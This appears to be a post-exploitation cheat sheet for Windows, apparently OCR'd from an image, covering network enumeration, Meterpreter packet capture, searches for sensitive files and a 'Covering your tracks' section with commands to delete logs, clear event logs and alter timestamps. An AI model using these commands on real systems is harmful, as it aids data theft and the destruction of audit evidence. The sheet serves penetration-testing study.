 ### Dualhomed

```
ipconfig /all
route print

# What other machines have been connected
arp -a
```

### Tcpdump

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# How to cat files in meterpreter
cat c:\\Inetpub\\iissamples\\sdk\\asp\\components\\adrot.txt

# Recursive search
dir /s
```

### Covering your tracks

Windows

C:\del %WINDIR%\*.log /a/s/q/f

MSF>clearev

MSF>timestompc:\\ -r



### Upload /Download file - Transfer Tricks and reminders


Reminder to check out the red team field manual tips and tricks  “File Transfer”

#### Transferring methods and tools
